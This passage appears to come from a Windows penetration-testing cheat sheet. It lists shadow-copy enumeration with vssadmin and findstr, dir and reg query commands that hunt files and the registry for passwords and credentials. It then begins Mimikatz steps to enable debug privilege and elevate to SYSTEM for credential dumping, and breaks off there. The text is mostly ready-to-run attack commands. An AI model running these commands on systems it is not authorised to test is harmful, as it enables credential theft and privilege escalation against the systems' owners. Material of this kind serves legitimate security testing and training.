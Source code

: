     ```powershell
    vssadmin
    vssadmin list shadows
    vssadmin list volumes
    ```

6. **Find the Sensitive Data**

    ```powershell
    findstr /si password *.txt *.xml *.ini
    findstr /si cred *.txt *.xml *.ini
    findstr /spin "password" *.*
    findstr /spin "password" *.*
    dir /s *pass* == *cred* == *vnc* == *.config*
    reg query HKLM /f password /t REG_SZ /s

    # List files - all
    dir /a \Users\Administrator\Desktop
    # List files - display the owner of the file or folder
    dir /q \Users\Administrator\Desktop

    # Get contents of file
    more .\example.txt
    type .\example.txt

    # Check Recycle.bin and SID Folder
    cd \'$Recycle.bin'
    cd \'$Recycle.bin\S-1-5-21-198...334-1001'
    ```

7. **Use Mimikatz**

    **[Mimikatz](https://github.com/gentilkiwi/mimikatz){:target="_blank"}{:rel="noopener"}** dumps the Windows credentials and also manages Kerberos tickets.

    1. **Start Mimikatz**

        ```
        mimikatz
        ```

    2. **Check if Mimikatz Running as an Administrator**

        ```
        mimikatz # privilege::debug
        ```

    3. **Elevate to SYSTEM Level**

        ```
        mimikatz # token::elevate
        ```
